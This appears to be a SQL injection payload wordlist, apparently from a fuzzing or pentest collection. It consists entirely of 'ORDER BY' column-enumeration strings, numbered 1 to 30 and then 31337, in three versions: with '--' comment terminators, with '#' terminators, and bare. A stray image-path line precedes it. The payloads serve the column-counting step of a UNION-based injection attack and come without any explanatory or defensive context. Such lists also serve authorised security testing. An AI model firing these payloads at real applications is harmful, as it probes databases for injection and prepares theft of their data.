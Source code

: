 ```
 ORDER BY 31337-- 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10# 
 ORDER BY 11# 
 ORDER BY 12# 
 ORDER BY 13# 
 ORDER BY 14# 
 ORDER BY 15# 
 ORDER BY 16# 
 ORDER BY 17# 
 ORDER BY 18# 
 ORDER BY 19# 
 ORDER BY 20# 
 ORDER BY 21# 
 ORDER BY 22# 
 ORDER BY 23# 
 ORDER BY 24# 
 ORDER BY 25# 
 ORDER BY 26# 
 ORDER BY 27# 
 ORDER BY 28# 
 ORDER BY 29# 
 ORDER BY 30#
 ORDER BY 31337#
 ORDER BY 1 
 ORDER BY 2 
 ORDER BY 3 
 ORDER BY 4 
 ORDER BY 5 
 ORDER BY 6 
 ORDER BY 7 
 ORDER BY 8 
 ORDER BY 9 
 ORDER BY 10 
 ORDER BY 11 
 ORDER BY 12 
 ORDER BY 13 
 ORDER BY 14 
 ORDER BY 15 
 ORDER BY 16 
 ORDER BY 17 
 ORDER BY 18 
 ORDER BY 19 
 ORDER BY 20 
 ORDER BY 21 
 ORDER BY 22 
 ORDER BY 23 
 ORDER BY 24 
 ORDER BY 25 
 ORDER BY 26 
 ORDER BY 27 
 ORDER BY 28 
 ORDER BY 29 
 ORDER BY 30 
 ORDER BY 31337 
```